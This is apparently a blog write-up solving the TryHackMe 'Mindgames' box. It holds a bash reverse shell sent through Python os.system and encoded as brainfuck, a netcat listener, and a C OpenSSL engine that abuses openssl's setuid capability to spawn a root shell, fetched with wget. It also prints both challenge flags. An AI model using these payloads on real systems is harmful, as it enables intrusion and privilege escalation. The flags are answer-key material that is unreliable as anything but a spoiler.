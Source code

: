 ```yaml
---
title: TryHackMe - Mindgames
description: My writeup on Mindgames box.
categories:
 - tryhackme
tags: tryhackme brainfuck python openssl capabilities gcc c
---
```


![](https://i.imgur.com/4zF0COC.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **Mindgames**  |
| Difficulty :  | **Medium**             |
| Play :    | [Mindgames](https://tryhackme.com/room/mindgames){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

Hello, this box was a good one, the privilege escalation part was kinda hard because it needed lot of researching. Let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.8.168
$ nmap -sC -sV -oN nmap/mindgames.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-21 23:14 EET
Nmap scan report for 10.10.8.168 (10.10.8.168)
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
|   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
|_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Mindgames.
```

When we visit the website we can see some brainfuck code:

![](https://i.imgur.com/5PtDa8h.png)

In the end, there is a box that allows us to execute code so i entered the brainfuck "hello, world" code.

![](https://i.imgur.com/vn52pKc.png)

If we use a [brainfuck deobfuscator](https://www.splitbrain.org/_static/ook/){:target="_blank"} we can see that the brainfuck code it's python code!

![](https://i.imgur.com/3JMF0cT.png)

## Shell as mindgames

So what we'll do is to encode our python code to brainfuck. We will use the `os.system` function to execute our reverse shell.

```python
import os
os.system("bash -c 'bash -i >& /dev/tcp/$your_tun0_ip/5555 0>&1'")
```

To brainfuck:

```
+++++ +++++ [->++ +++++ +++<] >++++ +.+++ +.+++ .-.++ +.++. <++++ +++++
[->-- ----- --<]> ---.< +++++ +++[- >++++ ++++< ]>+++ +++++ +++++ ++.++
++.<+ +++++ ++++[ ->--- ----- --<]> --.-- -.<++ +++++ +++[- >++++ +++++
+<]>+ .++++ .<+++ +++++ [->-- ----- -<]>- ----. <++++ ++++[ ->+++ +++++
<]>++ +++.+ +++++ .---- --.+. <+++[ ->--- <]>-- ----. +++++ +++.< +++++
+++[- >---- ----< ]>--- --.-- ----. <++++ ++++[ ->+++ +++++ <]>.- .<+++
+[->+ +++<] >++.< +++[- >---< ]>--. <++++ ++++[ ->--- ----- <]>-- -----
-.<++ +[->+ ++<]> ++++. <++++ +++[- >++++ +++<] >++++ +.<++ +++++ +[->-
----- --<]> ---.+ +++++ +.<++ +++++ [->++ +++++ <]>++ +++++ +++.- .<+++
+[->+ +++<] >++.< +++[- >---< ]>--. <++++ ++++[ ->--- ----- <]>-- -----
-.<++ +[->+ ++<]> ++++. <++++ +++[- >++++ +++<] >++++ +++++ ++.<+ +++++
++[-> ----- ---<] >---- ----- .<+++ ++[-> +++++ <]>++ +++.< ++++[ ->---
-<]>- ----- --.-- ----. <+++[ ->+++ <]>++ ++++. <++++ +++[- >++++ +++<]
>++++ .+.<+ +++[- >++++ <]>+. <++++ ++++[ ->--- ----- <]>-- ----- .<+++
+++++ [->++ +++++ +<]>+ ++++. <++++ [->-- --<]> -.<++ +[->+ ++<]> ++++.
<++++ ++++[ ->--- ----- <]>-. ++.-. --.<+ ++[-> +++<] >++.< +++[- >---<
]>--. ++++. +.+.- ----- .+++. -.+++ ++.-- ----. +++++ +.... <++++ [->--
--<]> ----- .<+++ +[->+ +++<] >.<++ +[->+ ++<]> +++++ .<+++ +[->- ---<]
>---- ----. <+++[ ->+++ <]>++ .<+++ [->-- -<]>- .---- -.+++ ++++. <
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

mindgames@mindgames:~/webserver$ python3 -c 'import pty; pty.spawn("/bin/bash")'
mindgames@mindgames:~/webserver$ whoami;id
mindgames
uid=1001(mindgames) gid=1001(mindgames) groups=1001(mindgames)
```

## Shell as root

Enumerating the system, i found out that `openssl` has the `CAP_SETUID` capability. This means that allows us to change the UID.

```
mindgames@mindgames:~/webserver$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

But isn't that simple, [GTFObins](https://gtfobins.github.io/gtfobins/openssl/){:target="_blank"} doesn't provide a full answer but it gives a big hint.

![](https://i.imgur.com/f7H5BTX.png)

We can build an engine that executes a SUID shell. An engine is a software used for performing cryptographic operations. This [blog](https://www.openssl.org/blog/blog/2015/10/08/engine-building-lesson-1-a-minimum-useless-engine/){:target="_blank"} helped me a lot!

This will be our payload:

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setgid(0); setuid(0);
  execl("/bin/sh", "sh", 0);
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Let's compile as follows now to create a shared library.

```
$ gcc -fPIC -w -o root.o -c root.c
$ gcc -shared -o pwn.so -lcrypto root.o     
```

Let's transfer the file now and execute it.

```
mindgames@mindgames:/tmp$ wget -q 10.9.234.105/pwn.so                    
mindgames@mindgames:/tmp$ openssl engine -t -c `pwd`/pwn.so                                                                                                                      
# whoami;id                                                                                                                                                                      
root                                                                                                                                                                             
uid=0(root) gid=1001(mindgames) groups=1001(mindgames)     
```

Let's read the flags.

```
# cat /root/root.txt
thm{1974a617cc84c5b51411c283544ee254}
# cat /home/mindgames/user.txt
thm{411f7d38247ff441ce4e134b459b6268}
```

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
